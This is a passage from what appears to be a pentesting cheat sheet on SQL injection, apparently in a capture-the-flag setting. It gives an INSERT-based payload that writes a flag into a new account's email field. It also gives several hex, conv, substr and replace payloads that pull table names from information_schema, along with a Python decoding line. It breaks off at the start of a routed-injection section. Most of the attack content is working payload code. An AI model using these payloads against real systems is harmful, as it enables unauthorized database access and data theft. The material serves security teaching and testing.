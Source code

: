 ```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```

<br>

### Using decimal or hexadecimal
---

With this technique you can extract information creating only 1 account. It is important to note that you don't need to comment anything.

Using **hex2dec** and **substr**:

```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```

To get the text you can use:

```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```

Using **hex** and **replace** (and **substr**):

```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```

## Routed SQL injection
---

Routed SQL injection is a situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output. ([From Paper](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Example:
